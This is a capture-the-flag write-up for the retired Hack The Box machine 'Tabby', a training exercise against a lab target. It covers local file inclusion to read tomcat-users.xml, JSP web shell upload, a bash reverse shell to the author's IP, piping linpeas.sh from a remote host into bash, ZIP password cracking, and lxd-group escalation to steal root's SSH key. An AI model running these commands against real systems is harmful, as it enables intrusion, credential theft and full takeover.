

# Tabby

This is the write-up for the box Tabby that got retired at the 7th November 2020.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.194    tabby.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/tabby.nmap 10.10.10.194
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page is a custom-developed company website with the title _"Mega Hosting"_ that offers server hosting services.



There is a statement from the company about a data breach, which forwards to the domain _megahosting.htb_, so lets put that into our _/etc/hosts_ file:
```
We have recently upgraded several services. Our servers are now more secure than ever. Read our statement on recovering from the data breach
```

It forwards to _/news.php?file=statement_ which looks like it is vulnerable to a **Local File Inclusion** vulnerability.
That means that it reads a file from the system and a different file may be specified on the box:
```
GET /news.php?file=/../../../../../etc/passwd
```

It works and outputs the contents of _/etc/passwd_.
The web files of the service on port 80 do not look interesting, so maybe on port 8080 are important files to obtain.

## Checking HTTP (Port 8080)

The web page on port 8080 shows the default installation information that **Tomcat** was installed successfully.
On Tomcat the administration page can be found on _/manager_ but it needs credentials.

The file _tomcat-users.xml_ has the users for that and can be read by using the LFI vulnerability:
```
GET /news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
```
```
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

It shows the HTTP status code _403 Forbidden_ because the Tomcat Manager is by default only accessible by localhost.
But we are able to use the credentials anyway and use a _PUT method_ on the correct path to upload files.

The **Tomcat** web server runs Java and can execute **WAR files**, which is archived Java code.
The [GitHub repository of tennc](https://github.com/tennc/webshell) has many different web shells and I will use [cmdjsp.jsp](https://github.com/tennc/webshell/blob/master/jsp/cmdjsp.jsp).

Creating a **WAR file** out of the JSP shell:
```
zip cmdjsp.war cmdjsp.jsp
```

Uploading the JSP web shell:
```
curl -T cmdjsp.war -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/app
```

After it is successfully uploaded, it can be found in _/app/cmdjsp.jsp_:
```
http://10.10.10.194:8080/app/cmdjsp.jsp
```

It takes commands in the POST data and `whoami` is used to proof command execution:
```
POST /app/cmdjsp.jsp HTTP/1.1
Host: 10.10.10.194:8080
(...)
cmd=whoami
```

The next step is to execute a reverse shell, but as this web shell has problems with special characters, we will instead upload a reverse shell script on the box and execute it after.

Creating reverse shell script _(shell.sh)_:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'
```

Downloading the script to the box:
```
cmd=curl 10.10.14.10:8000/shell.sh -o /tmp/shell
```

Executing the script on the box:
```
cmd=bash /tmp/shell
```

After executing it, the listener on my IP and port 9001 starts a reverse shell as the user _tomcat_.

## Privilege Escalation

When analyzing the web files, there is a suspicious ZIP archive in _/var/www/html/files_ called _16162020_backup.zip_:
```
unzip 16162020_backup.zip

Archive:  16162020_backup.zip
[16162020_backup.zip] var/www/html/favicon.ico password:
```

It is password protected, so it needs to be cracked on our local client:
```
zip2john 16162020_backup.zip
```
```
john backup-zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

It gets cracked and the password for the ZIP archive is:
> admin@it

The ZIP archive has the files of the web page and only _index.php_ differs from the one on the box, but it does not contain any sensitive information.
After trying the password on the user _ash_ it works:
```
su - ash
```

### Privilege Escalation to root

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.10/linpeas.sh | bash
```

The user _ash_ is a member of the **lxd group**, which allows to deploy containers.
A container can have the file system of the box mounted and thus it will be possible to read all files from the host system.

I will follow the [instructions on HackTricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-1):

Installing all the requirements and creating container on our local client:
```
apt install -y golang-go debootstrap rsync gpg squashfs-tools
go get -d -v github.com/lxc/distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
$HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

Uploading the two files _rootfs.squashfs_ and _lxd.tar.xz_ to the box:
```
ash@tabby:/tmp$ wget 10.10.14.10:8000/rootfs.squashfs

ash@tabby:/tmp$ wget 10.10.14.10:8000/lxd.tar.xz
```

Adding the image and then deploying the container on the box:
```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Lists the created image
lxc image list
```
```
# Answer every question with default values
lxd init

lxc init alpine privesc -c security.privileged=true

# Lists the created container
lxc list

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Starting the container and executing `sh` in it:
```
lxc start privesc
lxc exec privesc /bin/sh
```

The file systems root directory is mounted in the container on _/mnt/root_ and every file from the host can be found there.
In the directory _/mnt/root/root/.ssh_ is the private SSH key of root that can be copied to our local box and then used to access the box via SSH:
```
chmod 600 root.key

ssh -i root.key 10.10.10.194
```

A shell as root on the box is started!
